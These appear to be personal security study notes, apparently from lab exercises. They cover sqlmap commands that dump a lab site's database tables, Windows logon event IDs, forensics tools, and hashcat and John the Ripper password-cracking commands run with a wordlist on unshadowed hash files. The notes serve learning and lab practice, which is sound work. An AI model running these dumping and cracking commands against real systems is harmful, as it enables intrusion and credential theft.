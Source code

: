 
SQLMap - sql injection tool
analyse: sqlmap -u http://sqlmaptesting.thm/search/cat=1
get databases: sqlmap -u http://sqlmaptesting.thm/search/cat=1 —dbs
get tables inside database: sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
get records from the table: sqlmap -u http://sqlmaptesting.thmsearch/cat=1 -D users -T thomas --dump


Event ID	Description
4624	A user account successfully logged in
4625	A user account failed to login
4634	A user account successfully logged off
4720	A user account was created
4724	An attempt was made to reset an account’s password
4722	A user account was enabled
4725	A user account was disabled
4726	A user account was deleted


digital forensics:
* FTK Imager
* autopsy: https://www.autopsy.com/
* dumpit: https://www.toolwar.com/2014/01/dumpit-memory-dump-tools.html
* volatility: https://volatilityfoundation.org/

————

search hashes:
https://crackstation.net/
https://hashes.com/en/decrypt/hash


recognize hashes:
https://pypi.org/project/hashID/
https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master
https://hashes.com/en/tools/hash_identifier
https://hashcat.net/wiki/doku.php?id=example_hashes
https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py


hash crack:
https://www.openwall.com/john/
https://hashcat.net/hashcat/ - hashcat -m <hash_type> -a <attack_mode> hashfile wordlist 
https://hashcat.net/wiki/doku.php?id=example_hashes - to check hash type

md5 collision: https://www.mscs.dal.ca/~selinger/md5collision/
sha1 collision: https://shattered.io/


john
https://www.openwall.com/john/

1. Search format name supported by john: john --list=formats | grep -iF 'sha256' 
2. john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash3.txt
3. john --single --format=raw-sha256 hash07.txt (hash syntax: ‘username:hash’)
4. generate unix hashs in john compatible format: unshadow local_passwd local_shadow > unshad
5. Add custom rule in `/etc/john/john.conf` - https://www.openwall.com/john/doc/RULES.shtml
    * Az: Takes the word and appends it with the characters you define
    * A0: Takes the word and prepends it with the characters you define
    * c: Capitalises the character positionally
* 
